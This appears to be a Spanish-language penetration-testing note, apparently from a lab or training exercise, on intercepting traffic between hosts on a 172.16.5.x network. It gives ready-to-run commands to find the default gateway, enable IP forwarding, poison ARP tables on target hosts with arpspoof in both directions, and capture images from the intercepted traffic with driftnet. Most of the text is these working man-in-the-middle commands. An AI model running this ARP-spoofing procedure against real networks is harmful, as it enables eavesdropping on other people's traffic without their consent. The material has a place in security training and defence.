 #### Identificar gateway por defecto

```bash

traceroute 10.10.10.10 -m 5

# or

traceroute 10.10.10.10 -m 5 -T

# or

route
```

_Nota:_ Para poder husmear paquetes usando arpspoof, necesitarás usar la misma puerta de enlace por defecto que usan tus objetivos puedes ver los comandos de arriba.

<img src="https://res.cloudinary.com/djc1umong/image/upload/v1688151233/0_y1wvzh.webp" >

#### Capturar el trafico entre 172.16.5.5 y 172.16.5.1

```bash
# Habilitamos ip_forwarding en nuestro sistema
echo 1 > /proc/sys/net/ipv4/ip_forward

# los dos comandso de abajo al mismo tiempo
arpspoof -i eth1 -t 172.16.5.5 -r 172.16.5.1

arpspoof -i eth1 -t 172.16.5.1 -r 172.16.5.5

```

los comandos de arriba van a mandar paquetes arp hasta envenenar la tabla ARP en ambos hosts.

A continuación, para ver si hay imágenes en el tráfico entre estos hosts, vamos a lanzar driftnet mientras se ejecutan nuestros ataques arspoof.

```bash

driftnet -i eth1

```

Capturamos el tráfico por alrededor de 5m y lo guardamos en un archivo.

#### Capturamos el tráfico entre 172.16.5.6 y 172.16.5.1

```bash
arpspoof -i eth1 -t 172.16.5.6 -r 172.16.5.1

arpspoof -i eth1 -t 172.16.5.1 -r 172.16.5.6

#####

arpspoof -i eth1 -t 172.16.5.6 -r 172.16.5.10

arpspoof -i eth1 -t 172.16.5.10 -r 172.16.5.6

```
